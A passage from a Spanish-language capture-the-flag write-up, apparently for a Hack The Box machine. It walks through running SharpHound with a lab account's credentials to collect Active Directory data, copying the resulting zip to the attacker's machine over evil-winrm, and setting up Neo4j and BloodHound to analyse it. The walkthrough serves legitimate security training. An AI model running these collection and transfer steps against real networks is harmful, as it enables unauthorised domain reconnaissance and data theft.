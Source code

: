Seguidamente se ejecutará SharpHound.exe con los siguientes parámetros:

```powershell
PS C:\Users\s\Documents> .\SharpHound.exe -c all --LdapUsername 'svc-alfresco' --LdapPassword 's3rvice' --domaincontroller 10.10.10.161 -d htb.local
```

Los parámetros utilizados en este comando son:

- `-c all`: Recoge todos los tipos de datos disponibles.
- `--LdapUsername` y `--LdapPassword`: Se especifican las credenciales de un usuario válido en el dominio, en este caso 'svc-alfresco' con la contraseña 's3rvice'.
- `--domaincontroller`: Se especifica la dirección IP del controlador de dominio, 10.10.10.161 en este caso.
- `-d htb.local`: Se especifica el nombre del dominio.

![imagen 11](Pasted image 20230715235157.png)

Finalizada la ejecución, **SharpHound.exe** generará un archivo **zip** con los **datos que ha recolectado**. Este zip deberá ser transportado a la máquina atacante para su posterior análisis con **BloodHound**. En este caso se utilizará el comando `download` de **evil-winrm** para descargar el zip:

```powershell
PS C:\Users\s\Documents> download C:\Users\svc-alfresco\Documents\20230715012300_BloodHound.zip bh.zip
```

Más información sobre la utilización de **SharpHound** y posibles configuraciones de la herramienta se puede encontrar en la página de [The Hacker Recipes](https://www.thehacker.recipes/ad/recon/bloodhound).

##### Configuración de Neo4j y BloodHound

**BloodHound** necesita una base de datos para operar, y utiliza **Neo4j**, una base de datos gráfica. Si no está instalado, se puede seguir la guía de instalación de la [documentación oficial de Neo4j](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/#debian-installation). 

Los comandos para instalar **neo4j 5.6.0** son los siguientes:

```bash
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable latest' | sudo tee -a /etc/apt/sources.list.d/neo4j.list
sudo apt-get update
sudo apt-get install neo4j=1:5.6.0
```

Una vez instalado **Neo4j**, se debe ejecutar con el comando `sudo neo4j console`. Si es la primera vez que se inicia, se deberá **configurar un usuario y una contraseña** que se usarán después en BloodHound. El panel de configuración de Neo4j suele residir en *http://localhost:7474/*.

##### Ejecución de BloodHound

Con **Neo4j** funcionando, ya se puede iniciar **BloodHound**. Para ello, es necesario descargar la versión adecuada para el sistema operativo desde el [repositorio oficial de BloodHound](https://github.com/BloodHoundAD/BloodHound/releases). Una vez descargado y descomprimido, se encontrará el ejecutable de BloodHound. Al ejecutarlo, aparecerá una pantalla de inicio de sesión en la que se deben proporcionar las credenciales configuradas en Neo4j.
